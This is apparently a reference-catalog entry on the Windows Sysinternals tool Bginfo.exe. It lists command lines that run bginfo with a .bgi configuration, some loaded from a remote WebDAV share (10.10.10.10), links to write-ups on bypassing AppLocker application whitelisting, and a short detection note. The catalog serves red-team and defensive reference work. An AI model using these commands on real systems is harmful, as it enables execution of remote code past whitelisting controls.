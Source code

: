 ## Bginfo.exe

* Functions: Execute

```
bginfo.exe bginfo.bgi /popup /nolicprompt    

"\\10.10.10.10\webdav\bginfo.exe" bginfo.bgi /popup /nolicprompt    

"\live.sysinternals.com\Tools\bginfo.exe" \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt   
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* https://github.com/api0cradle/BGInfo/blob/master/BGITool_1.0.ps1

Resources: 
* https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/   
* https://oddvar.moe/2017/05/22/clarification-bginfo-4-22-applocker-still-vulnerable/  
* https://twitter.com/Oddvarmoe/status/865330067630694400   
* https://twitter.com/ItsReallyNick/status/996133093613424641   
* https://github.com/3gstudent/bgi-creater   
* https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/  

Full path:
```
No fixed path
```

Notes:
Used to set background image in Windows with details about the environment


Detection:
Bginfo.exe requesting files externally or running VBS scripts.